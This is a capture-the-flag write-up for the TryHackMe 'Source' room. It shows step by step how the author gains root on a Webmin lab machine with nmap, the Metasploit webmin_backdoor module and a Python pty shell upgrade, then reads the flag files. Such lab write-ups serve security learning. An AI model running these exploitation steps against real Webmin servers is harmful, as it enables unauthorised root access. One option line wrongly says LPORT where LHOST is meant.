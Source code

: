 ```yaml
---
title: Source writeup
published: true
---
```


# ***TryHackMe***- Source : Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.

Link to THM Room : [source](https://tryhackme.com/room/source)

## About the room :   

This is pretty easy room created by [DarkStar7471](https://tryhackme.com/p/DarkStar7471)<br>
Since, this room is only 5 days old so I decided to root the machine as quickly as possible, hence, usig Metasploit.<br>
However if you are not sure about using Metasploit, I suggest learning and completing the room [Metasploit](https://tryhackme.com/room/rpmetasploit).<br>
Well without any further ado **let's break in**.

### Methodology :

- **Port Scanning : nmap**
- **Exploit and privilege escalation : metasploit**

**Hop into your terminal**

+ ***nmap to enumerate the ports running on the machine***

>> **nmap -sC -sV -Pn -oN source 10.10.x.x**

<img src="/images/nmap.jpg">

Right we have ssh running on 22 and Webmin httpd on 10000.<br>
Let's hop into browser to check what's in the web server.

***Note the website is running on SSL(Secure Socket Layer), therefore, the link would be https://10.10.x.x:10000.***

<img src="/images/weblogin.JPG">

And here's a login page.<br>
We could definately try bute-forcing with **Hydra** or use **sqlmap** to check the database.<br>
But all these require a little more enumeration to follow, so let's just hop into metasploit for convenience.

+ ***metasploit***

**Back into terminal**   

Type **msfconsole** to fire up metasploit framework.

Once it starts use the **search** command to search for exploits related to **webmin**

>> search webmin

<img src="/images/search.JPG">

Cool there's exploits for webmin we can use.<br>
Exploits for Remote Command Execution available<br>
However, here's an exploit available as webmin_backdoor which will do our task to create a **backdoor** into admin's machine.<br>
If we can get root privilege straight through the backdoor, why not use it ???<br>

We can simply set the payload with **use exploit_number** or **use full_path** command.

>> use 2

<img src="/images/use2.JPG">

**show options** to veiw the options available for payload.<br>
Simply set RHOSTS - the target machine,<br> RPORT - 10000(here its set by default),<br> LHOST - the listening ip address(our tun0 ip provided by openvpn).<br>
Make sure to set SSL - true(because the server is using SSL).

>> set RHOSTS 10.10.x.x

>> set LPORT your_vpn_ip 

>> set SSL true 

With all the parameters set we are good to go and run the payload. Type **run** or **exploit**

>> run

<img src="/images/runexp.JPG">

In no time we get out **session**<br>
If you check with **whoami** , we're in as **root**<br>
Sweet eh ???

Now here we are **root**, but since this shell is unstable at this moment, we can use **python** to get a stable shell.<br>
Simply type the following commands to get a stable shell :

>> shell

>> python -c "import pty;pty.spawn('/bin/bash')"

<img src="/images/import.JPG">

Here we are simply using **python** to spawn a shell i.e /bin/bash.<br>
Type the following commands to make use of /bashrc (can't explain everything here, just know you can't use *clear* command, etc.. yet so)

>> export TERM=xterm

Once this is done we are able to clear screen or use our arrow keys to neviagte to previously used commands.<br>
Well, let's get our **user.txt** and **root.txt** asap...

>> cd /home
>> ls
>> cd dark
>> ls
>> cat user.txt

<img src="/images/user.JPG"> 

Got our first flag i.e user.txt

>> cd /root
>> ls
>> cat root.txt

or simply

>> cat /root/root.txt

<img src="/images/root.JPG"> 

And there we are, **root flag** staring at us. :D

***Finally completed the room, congrats !!!***

***This was fairly an easy machine.***<br>

**Thank you for reading, hope you enjoyed and learned something !!! ;)**

***PS: If you found a sotphisticated way to root this machine other than using Metasploit do add a writeup or DM me on [THM](https://tryhackme.com/p/xavag3djang0) @xavag3djang0 and share your exerience so that I may learn too !***



